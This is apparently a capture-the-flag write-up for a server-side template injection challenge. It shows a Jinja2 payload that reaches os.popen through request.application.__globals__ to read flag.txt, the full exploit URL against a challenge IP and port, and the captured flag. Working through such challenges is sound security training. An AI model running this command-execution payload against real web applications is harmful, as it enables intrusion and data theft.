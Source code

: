 ## Solve:

- [ ] Reference to SSTI (Server Side Template Injection)
  ```python
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
  ```
  
  http://206.189.59.199:8005/?c={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag.txt%27).read()}}

<br/>

## Flag:
`flag{Server_Side_Template_Injection_is_4_cool_kids_only}`
